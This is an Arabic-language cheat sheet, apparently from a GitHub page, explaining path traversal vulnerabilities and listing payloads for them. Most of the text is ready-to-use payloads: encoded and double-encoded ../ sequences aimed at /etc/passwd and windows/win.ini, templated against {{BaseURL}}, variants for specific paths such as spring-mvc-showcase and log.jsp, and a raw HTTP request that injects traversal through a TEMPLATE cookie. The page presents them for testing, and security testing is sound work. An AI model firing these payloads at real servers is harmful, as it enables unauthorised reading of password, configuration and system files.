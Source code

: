 🔍 ثغرة Path Traversal – الوصول غير المشروع للملفات

ثغرة Path Traversal تُعد من أخطر الثغرات الأمنية، حيث تمكّن المهاجم من الوصول إلى ملفات أو مجلدات خارج نطاق الصلاحيات المحددة له في نظام الملفات. يتم ذلك عن طريق التلاعب بمسارات الملفات في المدخلات، مما يسمح بقراءة، تعديل، أو حذف ملفات حساسة.

🎯 الهدف من الثغرة: الوصول إلى ملفات النظام مثل:

ملفات الإعدادات

كلمات المرور

ملفات النظام الحساسة مثل
```
/etc/passwd
```
أو
```
windows/win.ini
```
🧪 أفضل الـ Payloads لاختبار الثغرة:
```
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
📌 شرح التشفيرات المستخدمة:
%2e%2e%2f  →  ../
%2e%2e/    →  ../
..%2f      →  ../
%2e%2e%5c  →  ..\
%2e%2e\    →  ..\
..%5c      →  ..\
 %252e%252e%255c  →  ..\
 ..%255c    →  ..\
```
🔧 أمثلة إضافية:
```
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```
🍪 مثال على استغلال عبر Cookie Injection:
```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../
```
